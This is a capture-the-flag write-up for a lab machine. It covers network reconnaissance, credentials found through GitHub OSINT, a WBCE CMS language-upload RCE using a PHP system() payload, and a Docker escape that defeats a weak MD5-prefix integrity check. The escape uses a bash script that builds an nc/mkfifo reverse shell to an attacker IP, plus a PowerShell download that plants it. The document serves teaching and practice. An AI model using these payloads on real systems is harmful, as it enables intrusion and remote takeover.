





# INFO

This CTF was designed by Elnur Badalov and was Challenge №12 in ICSD's CTF event "Who am I" held on `20.09.2024`.

This write-up will show the solution to this CTF challenge.

# Reconnaissance
## NMAP Scan
```bash
nmap -p- -sS -sC -sV 10.0.10.25 -v --min-rate 10000
# result
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.255.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: PASV IP 172.17.0.2 is not the same as 10.0.10.25
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:eb:24:ea:01:e5:d2:e0:55:4d:37:95:3c:ac:6a:6e (ECDSA)
|_  256 97:33:4e:15:41:32:8c:32:86:6c:c3:b6:5c:be:fa:d9 (ED25519)
80/tcp   open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-title: CMC - A test post to test CMS
|_Requested resource was http://10.0.10.25/wbce/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
|_http-generator: WBCE CMS; https://wbce.org
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINDOCL-GI0DS47
| Issuer: commonName=WINDOCL-GI0DS47
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-11T00:50:52
| Not valid after:  2025-03-13T00:50:52
| MD5:   8043:0cbe:6a96:c2d8:61fb:7dea:c545:61df
|_SHA-1: 2771:80d5:854a:3296:0f47:7072:934c:86d1:a095:44fd
|_ssl-date: 2024-09-23T06:33:02+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: WINDOCL-GI0DS47
|   NetBIOS_Domain_Name: WINDOCL-GI0DS47
|   NetBIOS_Computer_Name: WINDOCL-GI0DS47
|   DNS_Domain_Name: WINDOCL-GI0DS47
|   DNS_Computer_Name: WINDOCL-GI0DS47
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-23T06:33:01+00:00
```
4 ports are open:
- 21 - `vsftpd 2.3.4`. It has a Public Exploit for getting an RCE. 
- 22 - ssh.
- 80 - a web app - CMS.
- 3389 - RDP. It may mean that there is Windows machine.
## FTP Reveals a Hidden File

FTP allows anonymous login, and we find a hidden file `.note.txt`. We can download it using the `get` command.

It has the following note:\
```
You could ask me to give you a virtual machine in the Cloud. Why are you doing such weird thing, Mr. Windoclin? Who setups Windows Server that way?

Additionally, add me to the Github Repository as a Contributor.
```
Here, we learn that the user's name is `Windoclin` and he did something extraordinary with Windows. Additionally, he may have a GitHub account.

### Rabbit Hole

Although the FTP service seems exploitable (vsftpd 2.3.4 has a public exploit for backdoor command execution via CVE-2011-2523), it is a **rabbit hole** and won’t be useful.
## Github OSINT
Searching for `windoclin` on GitHub reveals a repository that points to his profile.

We discover another repo called *autotask*:
- https://github.com/windoclin/autotask

It contains automation scripts that leak credentials:

```python
...
username = "supascrtadminus3r"
password = "supascrtp4ssw0rd!!"
...
```
# CMS
## Recon
When we send a GET request to the IP, it redirects to `http://10.0.10.25/wbce/`. 
 If we request the new URL again (or navigate to it in a browser), we see it requires resources from `http://windoclin/wbce`. This indicates we need to add the `windoclin` hostname to the `/etc/hosts` file. 
 `wbce` in the URL suggests that the CMS in use is WBCE. 
 This CMS does exist, and it has several exploits available. 

## CMS Admin Access
By checking some common directory names, we can find the **admin portal** of the CMS, where we can log in using the credentials found earlier.  From the admin dashboard, we find the following information: `WBCE Version: 1.6.2`.
## RCE
We use the following exploit:
- https://github.com/capture0x/WBCE_CMS/

To get RCE, navigate to **Add-ons**, then **Languages**, and **install a language**. 
 
Let’s try a simple payload:
```php
<?php system('whoami');?>
```
Write this to a PHP file, upload it, and click **Install**. 

The exploit succeeded! We got `nt authority\system`, which grants the highest privilege on the system.
### Reverse Shell
For a reverse shell, I used this exploit:
- https://github.com/ivan-sincek/php-reverse-shell
Modify port and IP and repeat the steps:

# Windows Enumeration
Let's check Desktop of the **windoclin** user:

We find a shortcut to a folder located in a network share: `\\host.lan`.
```powershell
net view \\host.lan
# gives
...
Data        Disk           Shared
...

# next, mount the share
net use Z: \\host.lan\Data

# cd there
Z:
Z:\>dir
 Volume in drive Z is Data
 Volume Serial Number is AC24-E051

 Directory of Z:\

09/12/2024  09:19 AM    <DIR>          .
09/12/2024  09:19 AM    <DIR>          ..
09/12/2024  02:36 AM        21,846,505 1.6.2.zip
09/12/2024  09:12 AM             2,468 healthy.sh
09/12/2024  10:25 AM               665 prevention.sh
09/12/2024  09:19 AM               166 README.MD
09/11/2024  10:19 AM                 7 user.txt
01/30/2024  11:47 PM    <DIR>          WBCE_CMS-1.6.2
```
Congratulations! We found `user.txt`!

# Windows Docker Escape
Three files interest us:
- `README.MD`
	- It contains `6238383731656632663334623638393836333933353130373530653833323635` which is `b8871ef2f34b68986393510750e83265` decoding from HEX.
````markdown
# A Note from Mr. Windoclin
```
6238383731656632663334623638393836333933353130373530653833323635
```

Do not modify the `healthy.sh`, otherwise it will not run**!**
````
- `prevention.sh`
	- This is a custom script designed to prevent another script from being executed if it’s been overwritten.
```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <script_to_run> <expected_md5_prefix>"
    exit 1
fi

script_to_run=$1
the_md5=$2

if [ ! -f "$script_to_run" ]; then
    echo "Error: The script '$script_to_run' does not exist."
    exit 1
fi

actual_md5_prefix=$(md5sum "$script_to_run" | awk '{print $1}' | cut -c 1-4)
expected_md5_prefix=$(echo "$the_md5" | awk '{print $1}' | cut -c 1-4)

if [ "$actual_md5_prefix" == "$expected_md5_prefix" ]; then
    echo "MD5 checksum matches. Running the script..."
    bash "$script_to_run"
else
    echo "MD5 checksum does not match. Expected '$expected_md5_prefix', but got '$actual_md5_prefix'."
    exit 1
fi
```
- `healthy.sh`
	- This script runs regular health checks. Using the following command, we can get its MD5 checksum:
```powershell
certutil -hashfile .\healthy.sh MD5
# result
MD5 hash of .\healthy.sh:
b8871ef2f34b68986393510750e83265
```

The MD5 hash `b8871ef2f34b68986393510750e83265` matches the one in the `README.MD` file.

Overall, the mechanism implemented here is used for performing regular health checks from a machine that connects to the shared folder. Additionally, it employs an *insecure* method for preventing the execution of an overwritten file, as it only checks the first 4 characters of the MD5 hash. This makes it vulnerable to a brute-force attack using the following script:

`brute.sh`
```bash
#!/bin/bash

# prepare the payload
FILE_PATH="shell.sh"
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.0.10.35 4444 >/tmp/f' > $FILE_PATH

TARGET_CHECKSUM="b887"

# add '#' to the end of shell file till first 4 characters are match
while true; do
    CURRENT_CHECKSUM=$(md5sum "$FILE_PATH" | awk '{ print $1 }' | cut -c 1-4)

    if [ "$CURRENT_CHECKSUM" == "$TARGET_CHECKSUM" ]; then
        echo "The file's checksum now matches the target: $CURRENT_CHECKSUM"
        break
    fi

    echo -n "#" >> "$FILE_PATH"

done
```
After creating `shell.sh`, transfer it onto the target machine, which can be done via a Python server.


Then, on the target machine, replace the file in `Z:/`:
```powershell
Invoke-WebRequest -Uri http://10.0.10.35:8000/shell.sh -OutFile healthy.sh
```

Set up a listener and wait for a connection.

Finally, voilà! We successfully obtain a shell and retrieve `root.txt`!

# Conclusion
By exploring further, we can find a `docker-compose.yml` file, which reveals that **Windows** is running as a **Docker container** on a **Linux** host. The shared folder we accessed earlier is mounted between the Linux host and the Docker container.  
  


This was a non-standard Docker escape technique that leveraged weak file integrity checks.

